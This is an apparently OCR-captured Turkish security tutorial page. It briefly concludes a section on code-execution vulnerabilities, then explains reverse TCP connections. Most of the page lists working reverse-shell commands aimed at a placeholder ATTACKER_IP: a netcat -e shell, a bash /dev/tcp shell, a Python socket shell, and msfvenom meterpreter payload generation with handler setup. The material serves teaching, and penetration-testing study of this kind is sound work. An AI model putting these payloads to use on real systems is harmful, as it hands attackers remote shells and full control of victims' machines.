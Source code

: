 Sonuç
🔴 Kod uygulama açıkları, sistem üzerinde tam kontrol sağlayabilir ve en tehlikeli zafiyet türlerinden biridir.
🛡 Girdileri sanitize etmek, güvenlik önlemleri almak ve güvenlik odaklı kodlama yapmak en iyi korunma yöntemleridir.










Ters TCP (Reverse TCP) Nedir?
Ters TCP bağlantısı, saldırganın doğrudan hedef makineye bağlanmak yerine, hedef makinenin saldırgana bağlantı başlattığı bir tekniktir. Bu yöntem genellikle güvenlik duvarlarını aşmak ve NAT arkasındaki sistemlere erişim sağlamak için kullanılır.

Ters TCP ile Bağlantı Kurma Komutları
1️⃣ Netcat (nc) ile Ters TCP Bağlantısı
📍 Hedef Makinede (Kurbandan Giden Bağlantı) Çalıştırılacak Komut:
bash
nc -e /bin/bash ATTACKER\_IP 4444
ATTACKER\_IP: Saldırganın IP adresi
4444: Saldırganın dinlediği port
📍 Saldırganın Makinesinde (Bağlantıyı Dinleme)
bash
nc -lvp 4444
Bu komut, saldırganın sisteminde bir "listener" açarak bağlantıyı beklemesini sağlar.

2️⃣ Bash ile Ters TCP Bağlantısı
Hedef makinede Bash kullanılarak ters bağlantı sağlamak için:
bash
bash -i >& /dev/tcp/ATTACKER\_IP/4444 0>&1
Bu komut, saldırganın makinesine bir ters bağlantı açar.

3️⃣ Python ile Ters TCP Bağlantısı
Eğer hedef sistemde Python yüklüyse:
python
import socket, subprocess, os
s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
s.connect(("ATTACKER\_IP", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/bash", "-i"])
Bu Python betiği, saldırganın makinesine bağlanarak bir shell açar.

4️⃣ Metasploit ile Ters TCP Payload
📌 Metasploit Framework’te Ters TCP Reverse Shell oluşturmak için:
bash
msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 -f elf > shell.elf
Hedef sistem bu dosyayı çalıştırırsa, saldırgana bağlantı açar.
📍 Metasploit Listener Açma:
bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse\_tcp
set LHOST ATTACKER\_IP
set LPORT 4444
exploit
